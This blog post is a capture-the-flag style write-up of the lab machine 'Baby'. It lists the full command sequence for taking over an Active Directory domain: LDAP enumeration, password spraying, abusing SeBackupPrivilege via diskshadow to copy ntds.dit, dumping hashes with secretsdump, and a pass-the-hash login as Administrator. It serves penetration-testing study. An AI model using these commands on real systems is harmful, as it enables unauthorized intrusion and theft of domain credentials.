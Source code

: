 ```yaml
---
title: "Baby"
date: 2025-02-03 00:00:00 +0800 
categories: [Red Team]
tags: [Red Team]     # TAG names should always be lowercase
---
```



![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby1.webp)

First, we gather information about open ports and services on the target system using nmap.

Reconnaissance with Nmap

nmap -A -T4 -Pn 10.10.116.118

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby2.webp)

We observed in the results that port 389 is open and running LDAP. We can proceed with our next steps by performing enumeration activities on LDAP. Various tools can be used for LDAP enumeration, such as enum4linux, windapsearch, ldapsearch, and Jxplorer. Here, we will use the ldapsearch tool.

2. LDAP Enumeration with LDAPSEARCH

   ldapsearch -x -H ldap://10.10.116.118:389 -b "DC=baby,DC=vl"


![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby3.webp)

Using ldapsearch, we were able to obtain information about the usernames of users in the Active Directory environment and the groups these users belong to. Additionally, we found a password in cleartext in the description field. We now have a list of users and a password. We can perform password spraying to identify which user this password belongs to.

3. Password Spraying
 
crackmapexec smb -u user.txt -p pass.txt -d baby.vl 10.10.116.118


![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby4.webp)


As a result of the password spray, we identified that the cleartext password we found belongs to the user Caroline.Robinson. However, the user’s password is currently expired, so we need to change this password.

We can change the user’s password using the smbpasswd tool.


smbpasswd -U Caroline.Robinson -r 10.10.116.118

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby5.webp)


Now, we can log into the server using the evil-winrm tool with the user whose password we changed.

4. Privilege Escalation

evil-winrm -i 10.10.116.118 -u Caroline.Robinson -p 'Pass123.'

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby6.webp)


After logging in with the user, we can view the user’s privileges using the whoami /priv command. The command output shows that the user has the SeBackupPrivilege privilege. We can investigate how we might exploit this privilege and what actions it allows us to perform.

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby7.webp)


With an understanding of the process we’re about to execute, let’s proceed. In a Domain Controller, unlike standalone exploitation, we require both the ntds.dit file and the system hive to extract hashes. The challenge with the ntds.dit file is that it remains in use while the target machine is running, making it impossible to copy through standard methods. To work around this, we’ll leverage the diskshadow functionality. This built-in Windows tool allows us to create a copy of an active drive. There are ways to use diskshadow, such as directly providing commands within its shell, but this approach can be complex. Instead, we’ll create a Distributed Shell File (.dsh file) containing all the necessary commands for diskshadow to create a full backup of our Windows drive, which we can then use to retrieve the ntds.dit file.


set context persistent nowriters
add volume c: alias abc
create
expose %abc% z:


![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby8.webp)

Lets upload our Distributed Shell File to the machine with uplaod command.

upload /home/kali/vulnlab/baby/abc.dsh

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby9.webp)

Lets execute diskshadow /s abc.dsh command to create volume of c drive and save as z drive.

diskshadow /s abc.dsh

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby10.webp)

Next, let’s copy the backed-up ntds file into the current folder.

robocopy /b z:\windows\ntds . ntds.dit

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby11.webp)

Let’s dump to system HIVE with associated command:

reg save hklm\system system

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby12.webp)

Then download this 2 files to local.

download ntds.dit
download system


![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby13.webp)

We can obtain password hashes by using impacket-secretsdump with the ntds and system files.

impacket-secretsdump -ntds ntds.dit -system system LOCAL

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby14.webp)

Then we can login with adminastrator user to Active Directory with hash we extract.

evil-winrm -i 10.10.116.118 -u Administrator -H 'ee4457ae59f1e3fbd764e33d9cef123d'

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby15.webp)

whoami /priv

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby16.webp)

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/baby17.webp)

